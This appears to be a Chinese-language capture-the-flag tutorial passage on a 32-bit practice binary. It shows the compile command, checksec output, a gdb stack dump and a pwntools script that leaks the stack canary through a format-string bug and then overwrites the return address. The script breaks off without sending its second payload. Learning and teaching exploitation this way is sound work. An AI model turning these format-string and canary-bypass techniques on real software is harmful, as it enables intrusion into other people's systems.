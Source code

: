 编译方式：

```
gcc -m32 -O0 vuln.c -o vuln
```

然后，我们使用gdb中的checksec看一下程序开启的保护：

```
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

此时，我们需要调试程序，让程序断在printf。查找canary距离printf第一个参数有多远，函数断在printf后栈中数据如下：

```
[-------------------------------------code-------------------------------------]
0x80485a8 &lt;func+39&gt;:    call   0x8048410 &lt;read@plt&gt;
0x80485ad &lt;func+44&gt;:    lea    eax,[ebp-0x2c]
0x80485b0 &lt;func+47&gt;:    mov    DWORD PTR [esp],eax
=&gt; 0x80485b3 &lt;func+50&gt;:    call   0x8048420 &lt;printf@plt&gt;
0x80485b8 &lt;func+55&gt;:    mov    DWORD PTR [esp+0x8],0x50
0x80485c0 &lt;func+63&gt;:    lea    eax,[ebp-0x2c]
0x80485c3 &lt;func+66&gt;:    mov    DWORD PTR [esp+0x4],eax
0x80485c7 &lt;func+70&gt;:    mov    DWORD PTR [esp],0x0
Guessed arguments:
arg[0]: 0xffffcf6c ("aaaan")
[------------------------------------stack-------------------------------------]
0000| 0xffffcf50 --&gt; 0xffffcf6c ("aaaan")
0004| 0xffffcf54 --&gt; 0xffffcf6c ("aaaan")
0008| 0xffffcf58 --&gt; 0x20 (' ')
0012| 0xffffcf5c --&gt; 0xf7eac716 (test   eax,eax)
0016| 0xffffcf60 --&gt; 0xffffffff 
0020| 0xffffcf64 --&gt; 0xf7e24b34 --&gt; 0x2910 
0024| 0xffffcf68 --&gt; 0xf7e24c34 --&gt; 0x2aad 
0028| 0xffffcf6c ("aaaan")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080485b3 in func ()
gdb-peda$ x/20wx 0xffffcf50
0xffffcf50:    0xffffcf6c    0xffffcf6c    0x00000020    0xf7eac716
0xffffcf60:    0xffffffff    0xf7e24b34    0xf7e24c34    0x61616161
0xffffcf70:    0x0000000a    0x00000000    0xffffcfb8    0xf7e7f0df
0xffffcf80:    0xf7fbf960    0x00000000    0x00002000    0xe920f900
0xffffcf90:    0xf7fbfc20    0xf7ffd938    0xffffcfb8    0x08048633
```

根据canary的特点，我们判断0xe920f900为canary，地址是0xffffcf8c。距离第一个参数有60字节，也就是15个参数的长度，所以要读canary我们的payload为%15x。经过分析，我们的exploit如下，先通过格式化字符串漏洞泄漏canary，再完成利用：

```
from pwn import *
elf = ELF("./vuln")
io = process("./vuln")
shell_addr = elf.symbols["exploit"]
payload = "%15$08x"
io.sendline(payload)
ret = io.recv()
canary = ret[:8]
log.success("canary =&gt; 0x`{``}`".format(canary))
payload = "a" * 4 * 8
payload += (canary.decode("hex"))[::-1] # 小端模式反转
payload += "a" * 4 * 3
payload += p32(shell_addr)
```